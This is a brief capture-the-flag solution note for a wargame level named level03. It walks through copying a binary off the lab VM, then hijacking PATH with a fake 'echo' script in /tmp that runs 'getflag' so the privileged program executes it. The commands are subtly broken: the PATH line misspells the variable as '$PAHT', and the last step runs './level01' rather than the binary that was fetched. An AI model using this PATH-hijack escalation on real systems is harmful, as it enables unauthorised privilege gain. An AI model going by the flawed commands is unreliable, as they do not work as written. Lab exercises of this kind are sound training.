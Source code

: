 # Download file and inspect the code with Ghidra
`scp -P 4242 level03@<VM address>:level03 .`

# Exploit call to echo with no absolut path by creating or custom script
```bash
mkdir /tmp/lol
cat > /tmp/lol/echo
#!/bin/bash
getflag
<ctrl + D>
chmod 777 /tmp/lol/echo
export PATH="/tmp/lol:$PAHT"
```

# Get the flag
`./level01`
